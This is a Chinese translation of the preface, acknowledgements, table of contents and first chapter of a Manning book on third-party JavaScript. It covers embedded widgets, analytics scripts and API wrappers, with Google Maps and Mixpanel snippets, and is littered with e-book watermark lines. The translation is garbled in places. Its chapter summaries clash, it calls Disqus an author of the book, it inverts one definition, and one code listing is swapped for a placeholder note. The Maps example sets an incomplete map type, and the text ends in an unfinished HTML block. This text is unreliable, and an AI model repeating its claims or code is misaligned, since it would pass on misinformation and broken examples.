








# 第三方 JavaScript

## 序言

Paul Irish

www.it-ebooks.info

www.it-ebooks.info

www.it-ebooks.info

www.it-ebooks.info

开发编辑：Renae Gregoire

技术校对员：Alex Sexton, John J. Ryan III

文字编辑：Benjamin Berg

校对员：Katie Tennant

排字员：Dottie Marsico

封面设计：Marija Tudor

www.it-ebooks.info

v

www.it-ebooks.info

www.it-ebooks.info

vii

*序言* - xii

*前言* - xv

*致谢* - xvii

*关于本书* - xix

*关于作者* - xxii

*关于封面插图* - xxiii

## 目录

### 1 第三方 JavaScript 简介 - 1

www.it-ebooks.info

viii

### 2 发布与加载应用 - 21

### 3 HTML 和 CSS - 48

### 4 与服务器通信 - 77

#### 4.3 子域代理 - 88

### 5 跨域 iframe 消息 - 105

### 6 验证与会话 - 131

### 7 安全 - 152

#### 7.1 Cookie、会话与会话窃取 - 153

### 8 开发第三方 JavaScript SDK - 172

xi

### 9 性能

#### 9.2 优化 JavaScript 213

#### 9.3 感知性能 220

*乐观的用户操作* *220*

#### 9.4 总结 223

### 10 调试与测试 224

*在生产环境中提供开发代码* *227*

www.it-ebooks.info

xiii

## 前言

作为一名第三方 JavaScript 开发者，你有许多需要管理的事项，以便在跨越多个站点和平台组合时发布代码。从未有任何时候，制作稳健的可分发 JavaScript 的细节和最佳实践能像书中这样被深度规范。这可能是一项棘手的工作，因此请让我通过讲述一个关于 Douglas Crockford 的故事来向你说明意外后果的可能性，他创建了分发最广泛的第三方脚本之一，以及一个名为 OnlineBootyCall 的网站。

JSON（JavaScript 对象表示法）是 JavaScript 的子集，由 Douglas 制定了规范。2005 年，他编写了 `json.js`，这是一个小型库，可以将 JSON 解析为 JavaScript 对象，并反向序列化为字符串。它立即就获得了广泛采用，但它增加了 `Object.prototype.toJSONString` 和 `String.prototype.parseJSON` 方法，这让许多人感到措手不及。

2007 年 10 月，Douglas 发布了 `json2.js`。开发者热链现有的 JavaScript 版本并不少罕见，Douglas 自己的拷贝也遭受了其殃。很快，他的托管公司给他发邮件，询问来自名为 OnlineBootyCall.com 网站的异常高流量。Douglas 在 `json2.js` 中包含了一条警告信息：“使用你自己的拷贝。从你无法控制的服务器加载代码是极其愚蠢的。”他添加了浏览器锁定、同步以及不带 JavaScript 的 `alert()`。结果是？每次加载 OnlineBootyCall 都会弹出一个窗口。哎哟。在这种情况下，Doug 是一个第三方脚本开发者，正在保护自己免受用户的侵害。但更多时候，情况恰相反。例如，`json2.js` 的出现是因为 Doug 对 `Object.prototype` 的扩展并不友好。

www.it-ebooks.info

xiv

前言

本书由该领域的两位顶尖专家开发者编写，梳理了所有当前技术并逐一揭示它们，以帮助你在首次部署时编写出经过实战检验的脚本。我希望这本书对你有所帮助，并希望你像我一样对下一代 Web 感到兴奋。

PAUL IRISH

开发者关系：GOOGLE CHROME, JQUERY MODERN AND HTML5 BOILERPLATE

xv

## 序言

2010 年 2 月，我正在与 Jason Yan 通电话，他是 Web 初创公司 Disqus 的 CTO 和联合创始人。当时，Disqus 是一家很小的公司，背后是一个广受少数大型媒体公司欢迎的、快速增长评论应用程序。Jason 正在面试我一个 JavaScript 工程师的职位——在问完几个关于类、类型和作用域的标准面试问题后，Jason 采取了不同的策略。他问了我以下问题（大致转述为）：“假设我获取了一个原生函数——例如 `Array.prototype.indexOf`——并给它赋了一个新值。你会如何找回原始值？”

我惊呆了。这是一个我以前从未遇到过的问题，我不知道答案。Jason 向我解释说，Disqus 应用运行在他们无法控制的环境中。在那些环境中，原生属性有时会被覆盖或篡改，而这些正是他们依赖的属性。我不打算放弃这个问题。于是面试中途，我打开了浏览器的控制台，开始摆弄原型（prototypes）。在短短几分钟内，我出了一个惊人的发现：你可以对修改过的属性使用 JavaScript 的 `delete` 操作符，浏览器就会恢复原始值。

事实证明，Jason 并不知道这个解决方案。他亲自尝试了该技术，果不其然，起作用了。我们对这一发现感到同样兴奋。

www.it-ebooks.info

xvi

序言开始了，讨论 Disqus 对该问题的当前解决方案，面试也从严肃的审问变成了关于 iframes、浏览器黑客（hacks）和其他脚本陷阱（gotchas）的兴奋对话。当时我并不知道，这是我第一次接触第三方 JavaScript；解决只影响运行在他人 Web 环境中的客户端应用程序的问题；发现某些 Web 开发者可能永远不会意识到的技术和实践。我入迷了。

几个面试之后，两个月后，我加入了位于金山的 Disqus 团队，当时该团队只有七名员工。在那里我遇见了 Anton Koval，我的我的新同事，也是一名 JavaScript 同行，以及未来的合著者。在接下来的两多年里，Anton 和我负责维护和开发 Disqus 的客户端代码。Disqus 继续增长——增长非常迅速。到 2012 年，它已安装在数十万个网页上，每月获得超过 50 亿页面浏览。它的客户包括 CNN、MLB、IGN、Time.com、Rolling Stone 以及其他几十主要媒体网站。

在那段时间，Anton 和我学到了许多针对第三方开发者的实用技巧、提示和黑科技，其中大多数是通过痛苦教训学到的，而有些是我们刻意保留的，因为它们给了我们技术优势。

在书中，我们汇集了关于第三方 JavaScript 的集体知识。我们不仅认为这本书将帮助各地的第三方开发者，还认为我们讨论的实践可能帮助 Web 变得更好。我们希望你在读完后也会认同这一观点。

BEN VINEGAR

www.it-ebooks.info

xvii

## 致谢

我们发现写这本书是一项艰巨且具有挑战性的任务，我们意识到没有大家是不可能的。我们想花时间感谢对这项工作做出直接或间接贡献的人们。

首先，我们要感谢 Daniel Ha、Jason Yan 以及 Disqus 团队，他们不仅雇佣了我们，还构建并维护了书中大部分内容来源的这一平台。

其次，我们要感谢 Manning 的同事，他们对一个许多人认为是小众的话题提供了机会。没有他们，这本书就不会存在。我们特别感谢我们的编辑 Renae Gregoire，她在写作过程中给予了帮助并从头到尾指导我们。我们还感谢 Manning 的编辑和制作团队，感谢他们在调优文本和改进书中穿插的图表方面提供的帮助。

我们特别感谢我们的技术评审员 Alex Sexton，他分享了他在这一领域的经验，并分享了他自己的第三方 JavaScript 技巧宝库；感谢 John Ryan III 在制作期间印刷前不久对终稿进行的评审；感谢 Paul Irish 撰写前言，并同意为我们这两个不自量力的业余爱好者背书。

最后但同样重要的是，我们要感谢在开发的不同阶段阅读过我们手稿的许多评审员和顾问，他们慷慨地分享了反馈、指出错误并/或对我们的想法进行了验证：Øyvind Sean Kinsey, Kyle Simpson, Henri d’Orgeval, Mike Pennisi, Peter DeHaan, Brian Arnold, Brian Chiasson,

www.it-ebooks.info

### 致谢

xviii

Brian Dillard, Brian Forester, David Vedder, Jake McCrary, Jeffrey Yustman, Jonas Bandi, Justin Pope, Margriet Bruggeman, Nikander Bruggeman, 以及 Sopan Shewale。最后，感谢每一位在 manning.com 论坛上评论、在 Twitter 上向我们喊叫、或在生活中向我们谈论这本书的每一个人——每一份微小的帮助都有着意义，我们感激不尽。

BEN VINEGAR

我想将这本书献给我的父母，David 和 Wendy。从你们在我小时候时为我买的第一台 Commodore 64 开始，你们一直培养了我对计算的兴趣，没有你们，我无法走到今天。特别感谢我的伴侣 Esther，感谢她在这一充满挑战性的项目期间给予了我的鼓励和耐心。

ANTON KOVALYOV

我想将这本书（甚至包括 Ben 编写的部分）献给我的父母，当我决定把大部分时间花在盯着电脑屏幕等待 Gentoo 编译时，他们给予了巨大的支持。感谢 Pamela Fox 激励我真正去编写这本书，而不是去忙于我的个人项目或看《神秘博士》（*Doctor Who*）。

www.it-ebooks.info

xix

## 关于本书

第三方 JavaScript 是在发布者网站上执行的独立客户端代码，但从远程网络地址提供服务。它被用于创建高度分布的 Web 应用程序，从社交小组件到分析追踪器，再到功能全的嵌入式应用。

本书是 JavaScript 应用开发的介绍。它不仅教读者如何编写在第三方上下文中执行的 JavaScript 代码，还教了涉及 HTML、CSS 甚至甚至 HTTP 的第三方 Web 开发技术。它适用于那些已经在第一方环境（例如你自己的网站）中拥有这些技术经验，并希望探索这些技术如何在异地 Web 环境（他人的网站）中执行的开发者。

本书不包含 JavaScript 编程语言的入门教程。它也没有教读者 HTML 和 CSS 的基础知识。然而，在文中遇到相关内容时，书中包含了关于动态脚本加载、Cookies、HTTPS 以及其他中级和高级 Web 开发主题的介绍材料。

本书由十章组成，如下：

- 第一章是第三方 JavaScript 简介。它教读者什么是第三方 JavaScript，并描述了常见的现实世界用例。章节以一个快速第三方应用程序示例结束，并强调了第三方 Web 开发的一些困难。
- 第二章指导读者如何在内容提供者的网站上实际加载并执行他们的代码。它从描述如何设置本地开发环境以模拟第三方开发开始。然后进入脚本加载的最佳实践，以及如何从内容提供者的网站提取配置变量。
- 第三章专注于 DOM 渲染。它教读者在内容提供者的 DOM 上进行渲染的最佳实践，这是一个他们无法控制的环境。它还涵盖了使用 CSS 和 iframe 元素避免样式冲突的策略。
- 第四章讲解了你的第三方脚本与数据服务器之间的通信。它从讨论同源策略（Same Origin Policy）以及它如何让跨域通信变得困难开始。然后查看了两种实现跨域请求的变通方法：JSONP 和子域代理。最后讨论了 CORS（跨源资源共享），这是一项新的 HTML5 浏览器功能，允许在现代浏览器中进行跨域请求。
- 第五章继续介绍跨窗口消息——包括 iframe。它引入了 `window.postMessage`，这是一个 HTML5 浏览器功能，在窗口之间提供了一种简单的消息机制。然后它介绍了一系列针对不支持 `window.postMessage` 的旧浏览器的回退技术。它还包含了一个 easyXDM 的教程，这是一个开源 JavaScript 库，为现代和旧浏览器都提供类似 `postMessage` 的功能。
- 第六章关于身份验证和 Cookies。它告知读者 Cookies 在第三方脚本中的行为，并提供了与浏览器交互的技术（当 Cookies 被禁用时）。
- 第七章是第三方应用程序的安全。它告知读者第三方脚本中 Cookies 的行为，并提供了处理浏览器安全问题的技术。
- 第八章讨论第三方应用程序的安全。它涵盖了跨站脚本攻击（XSS）和跨站请求伪造（XSRF）等漏洞。
- 第九章关于 JavaScript 软件开发包（SDK）。它教读者如何减小文件大小以及 HTTP 请求的数量。
- 第十章以测试和调试结束。它展示了如何使用工具调试生产环境中的 JavaScript 代码。

www.it-ebooks.info

## 代码规范与下载

书中或文中所有的代码均使用等宽字体（如所示），以便与普通文本区分。许多代码列表带有代码注释。在某些情况下，编号会链接到解释。

本书的配套代码根据 MIT 许可发布。你可以从发布者网站 `www.manning.com/ThirdPartyJavaScript` 免费获取。你也可以在 GitHub 上查看代码：`http://github.com/thirdpartyjs`。

## 作者在线

购买 *Third-Party JavaScript* 可以免费访问由 Manning 运营的私人论坛，可以在那里对书籍发表评论、提出技术问题并获得作者或其他用户的帮助。要访问论坛并订阅，请将你的浏览器指向 `www.manning.com/ThirdPartyJavaScript`。此页面提供了注册后如何进入论坛、可以什么样的帮助以及论坛规则。

Manning 对读者的承诺是提供一个读者之间以及读者与作者之间进行有效对话的场所。作者对论坛的贡献是自愿的。我们建议向作者提出一些挑战性的问题，以免他们失去兴趣！只要书籍印刷，在线论坛和之前的讨论存档都可以通过发布者网站访问。

www.it-ebooks.info

xx

## 关于作者

BEN VINEGAR 是 Disqus 的软件工程师。Disqus 是一个第三方评论平台，服务于超过 1,000,000 个博客、在线出版和其他网站，包括 CNN、MLB、Time Magazine 和 IGN。在加入 Disqus 之前，Ben 曾是 FreshBooks 的开发团队负责人和首席 JavaScript 开发人员，FreshBooks 是一家领先的 Web 端发票服务。

ANTON KOVALYOV 是 Mozilla 的软件工程师，他在那里帮助为 Firefox 浏览器编写开发工具。他还负责 JSHint，这是一个检测 JavaScript 源代码中错误的开源工具。在加入 Mozilla 之前，Anton 曾在 Disqus 担任软件工程师，为他们的嵌入式评论应用编写 JavaScript。

www.it-ebooks.info

xxiii

## 关于封面插图

《第三方 JavaScript》（Third-Party JavaScript）封面的图片标题为“Un Commandant”，意为指挥官。这张插图取自19世纪在法国出版的西尔万·马雷肖（Sylvain Maréchal）关于地区服饰习俗和军装的四卷本教程。每一幅插图都是经过精细手绘和手工上色的。马雷肖收藏的丰富内容生动地提醒着我们，仅仅在200年前，世界上城镇和地区之间的文化差异是多么巨大。由于彼此孤立，人们说着不同的方言和语言。在街上或乡村，仅通过着装就能很容易识别出他们居住在何处以及他们的职业或地位。

从那时起，着装规范已经发生了变化，曾经如此丰富的地区多样性也已消失。现在，很难区分不同大陆的居民，更不用说不同的城镇或地区了。也许我们用文化多样性换取了更丰富的个人生活——无疑也换取了更加多样且快节奏的技术生活。

在一个难以区分每一本计算机书籍的时代，Manning 出版基于两个世纪前丰富的地区生活多样性的书籍封面，通过马雷肖的图片使其重生，赞扬计算机业务的创造性和主动性。

www.it-ebooks.info

1

## 第三方 JavaScript 简介

第三方 JavaScript 是一种 JavaScript 编程模式，能够创建高度可发的 Web 应用程序。与普通的 Web 应用程序（通过单一地址 `http://yourapp.com` 访问）不同，这些应用程序可以使用简单的 JavaScript 引入任意地加载到任何网页上。

你可能以前已经遇到过第三方 JavaScript。例如，考虑广告脚本，它们在发布者网站上生成并显示定向广告。广告脚本可能不受用户欢迎，但它们帮助 Web 发布者赚收入并维持经营。它们在数百万个网站上可见，然而几乎几乎所有的脚本都是从独立的广告服务器提供的第三方脚本。

### 本章涵盖

- 解释第三方 JavaScript
- 第三方应用程序的真实案例
- 简单嵌入式组件的实现
- 识别第三方开发的挑战

www.it-ebooks.info

2

## 第一章

### 第三方 JavaScript 简介

广告脚本只是一个用例；开发者利用第三方脚本解决许多问题。有些公司使用它们创建满足发布者需求的独立产品。例如，来自旧金山的初创公司 Disqus（也是本书的作者）开发了一个为发布者提供即时评论系统的第三方应用程序。其他公司开发第三方脚本来扩展其应用程序以接触其他网站上的观众。例如，Facebook 和 Twitter 开发了加载在发布者网站上的社交组件。这些组件帮助社交网络接触其应用程序之外的用户。

小型公司也可以受益于第三方 JavaScript。假设你是一个 B2B（企业间）Web 应用程序的所有者，该程序收集客户信息。你有潜在客户想要使用你的应用程序，但又担心将其重定向到外部网站。通过第三方 JavaScript，你可以让客户直接在自己的网页上加载你的应用程序。

第三方 JavaScript 并非易事。编写这些应用程序绝非简单。在发布自己的第三方 JavaScript 之前，你需要克服许多陷阱和技巧。幸运的是，本书将引导你完成功能完备的应用程序开发。


在我们深入研究第三方 JavaScript 的细节之前，你需要了解基础知识。在本章中，我们将更好地定义第三方 JavaScript，查看来自许多公司的真实实现，介绍简单的应用程序实现，并讨论第三方开发的挑战。

让我们从尝试理解什么是第三方 JavaScript 以及我们用它做什么开始。

## 1.1 定义第三方 JavaScript

在典型的软件交互中，有两个双方。一个是运行软件的消费者（或第一方）。另一个是软件的提供者或作者（第二方）。

在 Web 上，你可能将第一方视为运行浏览的用户。当他们访问网页时，浏览器向内容提供者发送请求。该提供者（第二方）将网页的 HTML、图像、样式表和脚本从其服务器传回用户的浏览器。

对于像这样特别简单的交互，可能只有双方。但大多数网站提供者现在也包含来自其他来源（第三方）的内容。如图 1.1 所示，第三方可能提供从文章内容（美联社）到头像托管（Gravatar），再到嵌入视频（YouTube）的任何内容。从严格来说，由非网站提供者的组织提供给客户端的任何内容都是第三方的。


**图 1.1 今天的网站使用大量的第三方服务。**

当你尝试将此定义应用于 JavaScript 时，情况变得模糊。许多开发者对到底什么是第三方 JavaScript 有不同意见。有些人将其归类为提供者自行编写的任何 JavaScript 代码。这包括 jQuery 和 Backbone.js 等流行库。也包括你从 Stack Overflow 等编程网站复制粘贴的任何代码。

任何你没有编写的代码都属于这个定义。

其他人将第三方 JavaScript 指为从第三方服务器提供的、不受内容提供者控制的代码。论点是，内容提供者托管的代码受其控制：内容提供者选择代码何时以及何处提供，他们有权修改它，并对其行为负责。这与从独立的第三方服务器提供的代码不同，后者的内容无法由提供者修改，甚至可以在不通知的情况下更改。以下列表显示了一个同时加载本地和外部内容的内容提供者 HTML 示例。

```html
<!DOCTYPE html>
<html>
<head>
<title>示例内容提供者</title>
<script src="js/jquery.js"></script>
<script src="js/app.js"></script>
</head>
<body>

</body>
</html>
```

没有对错之分；你可以对这两种解释都提出论点。但对于本书来说，我们对后一种定义特别感兴趣。对于“未类型”的 `<script>` 标签，即使在旧浏览器中，浏览器的默认行为也是将内容视为 JavaScript。

到目前为止，我们一直从内容提供者的角度看第三方脚本。让我们转换视角。作为第三方 JavaScript 的**开发者**，我们编写意图在提供者网站上执行的脚本。为了将我们的代码放到提供者的网站上，我们给他们 HTML 代码段，插入到他们的页面中，以便从我们的服务器加载 JavaScript 文件（见图 1.2）。我们与网站提供者没有附属关系；我们仅仅在他们的页面上加载脚本，为他们提供有用的库或实用的自包含应用程序。

如果你正在挠腮，别担心。理解第三方脚本是什么的最简单方法是看它们在实践中是如何使用的。在下一节中，我们将介绍一些第三方脚本的真实示例。如果你在我们结束时仍然不知道它们是什么，那么我们作为三流技术作者的身份就坐定了。继续吧！

## 1.2 第三方 JavaScript 的多种用途

我们已经确定，第三方 JavaScript 是在他人网站上执行的代码。这使得第三方代码可以访问该网站的 HTML 元素和 JavaScript 上下文。你可以以多种方式操作该页面，包括在 DOM（文档对象模型）中创建新元素、插入自定义样式表以及注册浏览器事件以捕获用户操作。大多数情况下，第三方脚本可以执行你可能在你自己的网站或应用程序上使用 JavaScript 进行的操作，只不过是在别人的网站上执行。


**图 1.2 放置在发布者网页上的脚本加载代码段会加载第三方 JavaScript 代码。**

下面的表格说明了这个过程：

| 步骤 | 描述 |
| :--- | :--- |
| 1 | 第三方作者创建一段 JavaScript 代码段 |
| 2 | 发布者将代码段放入其 HTML 源代码中 |
| 3 | 浏览器向发布者请求网站 |
| 4 | 浏览器解析 HTML – 代码段向第三方服务器发起请求 |

拥有了远程网页操作的能力后，问题仍然是：它到底有什么用呢？在这一节中，我们将看看第三方脚本的一些真实世界用例：

- **嵌入式小组件**——嵌入在发布者网页上的小型交互式应用程序
- **数据分析与指标**——用于收集有关访问者以及他们如何与发布者网站交互的智能信息
- **服务 API 封装器**——用于开发与外部 Web 服务通信的客户端应用程序

这不是一个完整的列表，但它应该让你对第三方 JavaScript 的能力有一个基本的了解。我们将从深入研究第一个项目开始：嵌入式小组件。

### 1.2.1 嵌入式小组件

嵌入式小组件（通常称为*第三方组件*）可能是第三方脚本最常见的用例。这些通常是渲染在发布者网站上并可访问的小型交互式应用程序，但它们会从另一组独立的服务器加载和提交资源。小组件的复杂性差异很大；它们可以简单到显示你地理位置天气的图形，也可以复杂到功能完备即时消息客户端。

小组件让网站发布者能够轻松将应用程序嵌入到网页中。它们通常易于安装；大多数情况下，发布者只需要在其网页源代码中插入较小的 HTML 代码段即可开始。由于它们完全基于 JavaScript，小组件不需要发布者在其服务器上安装和维护任何执行软件，这意味着更少的维护和保养。

有些业务完全建立在嵌入式小组件的开发和分发之上。我们之前提到了 Disqus，一家位于旧金山的 Web 初创公司。Disqus 开发了一个评论小组件（见图 1.3），为博客、在线出版物和其他网站提供即插即用的评论区。他们的产品几乎完全由第三方 JavaScript 驱动。它使用 JavaScript 从服务器获取评论数据，将评论渲染为页面上的 HTML，并捕获来自其他评论者的表单数据——换句话说，就是一切。它通过一个总共五行代码的简单 HTML 代码段安装在网站上。



**图 1.3 发布者网站上的评论区示例，由 Disqus 评论小组件提供**

Disqus 是一个只有以分布式形式才可用的产品示例；你需要访问发布者的页面才能使用它。但小组件并不总是像这样的独立产品。它们通常是更大、更传统的本地化 Web 应用程序的“便携式”扩展。

例如，考虑 Google Maps，这可能是 Web 上最流行的地图应用。用户浏览到 `https://maps.google.com` 查看世界各地位置的交互式地图。Google Maps 还提供了汽车和公共交通的路线、卫星图像，甚至使用实地拍摄的街景视图。

令人难以置信的是，所有这些魔法也以小组件的形式存在。发布者可以使用从 Google Maps 网站获取的一些简单的 JavaScript 代码段，将地图应用程序嵌入到自己的网页中。在此基础上，Google 还提供了一系列公共函数，供发布者修改地图内容。

让我们看看使用 Google Maps（列表 1.2）在你的网页上嵌入交互式地图有多简单。这段代码示例首先通过一个简单的脚本包含来指向 Maps JavaScript 库。然后，当 `body` 的 `onload` 处理器触发时，你检查当前浏览器是否兼容，如果是，则初始化新地图并将其居中于给定的坐标¹。我们完成了，而这仅仅需要大约 10 行代码——强大的功能！

¹ 并不是所有人都能背下经纬度。幸运的是，Google 具有额外的函数可以将街道地址转换为地理坐标。访问 `http://code.google.com/apis/maps/` 了解更多。

```html
<!DOCTYPE html>
<html>
<head>
<title>Google Maps 示例</title>
<script src="https://maps.googleapis.com/maps/api/js?v=3&sensor=false"></script>
<script>
var map;
function initialize() {
var mapOptions = {
zoom: 8,
center: new google.maps.LatLng(37.7749, -122.4194),
mapTypeId: google.maps.MapTypeId
};
map = new google.maps.Map(document.getElementById('map_canvas'), mapOptions);
}
</script>
</head>
<body onload="initialize()">
<div id="map_canvas" style="width:500px; height:300px"></div>
</body>
</html>
```

**列表 1.2 初始化 Google Maps 小组件**

我们刚刚看了两个嵌入式小组件的例子。但实际上，任何应用程序都可以嵌入到发布者的页面。在我们的旅程中，我们遇到了各种小组件：内容管理小组件、播放视频的小组件，以及与客户支持聊天的小组件等。只要你能想象出来，就能嵌入它。

### 1.2.2 数据分析与指标

第三方 JavaScript 并非仅用于嵌入式小组件的创建。

JavaScript 最强大的功能之一是它允许开发者捕获并响应网页上发生的用户事件。第三方脚本也不例外：它们也可以观察访问者如何与网页交互。这可能包括跟踪访问者在离开页面前停留多久、看到了什么内容以及他们去了哪里。你的 JavaScript 代码可以挂接到并得出数百种不同的见解。

**被动脚本**

Crazy Egg 是另一家 Web 初创公司，是以这种方式使用第三方脚本的示例。他们的分析产品生成网页上的活动可视化（见图 1.4）。为了获取这些数据，Crazy Egg 向发布者分发脚本以捕获网页访问者的事件。Crazy Egg 生成的可视化结果帮助发布者识别网站的哪些部分被频繁访问，哪些被忽视。发布者利用这些信息改进他们的网页设计并优化内容。



**图 1.4 Crazy Egg 的热图可视化突显了发布者网站的高流量区域。**

Crazy Egg 的第三方脚本被认为是*被动*脚本；它在没有任何发布者交互的情况下记录统计数据。发布者仅负责将脚本包含在页面上。剩下的会自动完成。

**主动脚本**

并不是所有分析脚本都是被动的。Mixpanel 是一家分析公司，其产品跟踪发布者定义的用户操作以生成有关网站访问者或应用程序用户的统计数据。与其通用 Web 统计数据（如页面浏览或访问者），Mixpanel 让发布者定义想要跟踪的关键应用程序事件。示例事件可能是“用户点击了注册按钮”或“用户播放了视频”。发布者编写简单的 JavaScript 代码（见列表 1.3）识别操作发生，然后调用 Mixpanel 第三方脚本提供的跟踪方法向其服务注册事件。Mixpanel 然后将这些数据汇成有趣的漏斗统计数据，帮助回答诸如“用户在升级产品之前采取了哪些步骤”的问题。

```html
<button id="signup">注册!</button>
<script src="http://api.mixpanel.com/site_media/js/api/mixpanel.js"></script>
<script>
var mpmetrics = new MixpanelLib(PUBLISHER_API_TOKEN);
jQuery(function() {
jQuery('#signup').click(function() {
mpmetrics.track("signup button clicked");
});
});
</script>
```

**列表 1.3 使用 Mixpanel JS API 跟踪用户注册**

Mixpanel 在第三方脚本的使用上还有其他有趣之处。实际上，Mixpanel 提供了一组客户端函数，这些函数与它们的 Web 服务 API 通信——该 API 是一系列服务器 HTTP 端点，用于跟踪和报告事件。这是一个实用的用例，可以扩展到任意数量不同的服务。让我们深入学习。

### 1.2.3 Web 服务 API 封装器

如果你对它们不熟悉，Web 服务 API 是指 HTTP 服务器端点，允许以程序化的方式访问 Web 服务。与返回 HTML 供浏览器消耗的服务器应用程序不同，这些端点接受并响应结构化数据（通常为 JSON 或 XML 格式），供计算机程序消耗。该程序可以是桌面应用程序、运行在 Web 服务器上的应用程序，甚至可以是托管在网页上但在用户浏览器中执行的客户端 JavaScript 代码。

最后一种用例——在浏览器中运行的 JavaScript 代码——正是我们最感兴趣的。Web 服务 API 提供商可以为在其平台上进行开发的开发者（通常称为*集成者*）提供第三方脚本，以简化客户端对其 API 的访问。我们喜欢将这些脚本称为*Web 服务 **API** 封装器*，因为它们实际上是“封装”了 Web 服务 API 功能的 JavaScript 库。

**示例：FACEBOOK GRAPH API**

这有什么用？让我们来看一个例子。假设有一位名叫 Jill 的独立 Web 开发人员，她厌倦了兼职工作，正在寻找一份全职工作。Jill 决定，为了更好地吸引潜在雇主，她需要在她的个人网站上托管一个看起来非常精美的在线简历。这份简历大部分是静态的——列出了她的技能和以往的工作经历，甚至提到了她对月光皮划艇的热爱。

Jill 决定，为了展示她的 Web 开发实力，简历中也应该有一个动态元素。她有了一个完美的主意：如果 Jill 在线简历的访问者（潜在雇主）能够看到他们是否与 Jill 有共同的朋友或熟人（见图 1.5），这不仅是对 Jill 技能的巧妙展示，而且拥有共同朋友可能是她获得机会的绝佳方式。


**图 1.5 在 Jill 简历的底部，访问者可以看到与 Jill 共同的朋友。**

为了实现她的动态简历，Jill 使用了 Facebook 的 Graph API。这是来自 Facebook 的 Web 服务 API，允许软件应用程序访问或修改实时 Facebook 用户数据（在许可的情况下）。当然，Facebook 也有一个提供与 API 通信函数的 JavaScript 库。通过使用这个库，Jill 可以编写客户端代码，找到并显示她与简历访问者之间的共同朋友。图 1.6 展示了浏览器和两个服务器之间发生的事件序列。


**图 1.6 使用客户端 JavaScript 在网站中嵌入 Facebook 内容**

下面的列表 1.4 显示了在她的简历上实现此功能的代码。为了保持简单，此示例使用了 jQuery（一个 JavaScript 库）来简化 DOM 操作。请访问 `http://jquery.com` 了解更多信息。

```javascript
// 此处是列表 1.4 的代码内容（由于原文未提供完整代码，此处仅保留描述性信息）
```

（注：原文中列表 1.4 的具体代码内容未完整展示，但根据上下文，它展示了如何使用 Facebook JavaScript 库来查找和显示共同朋友。）


```html
<!DOCTYPE html>
<html>
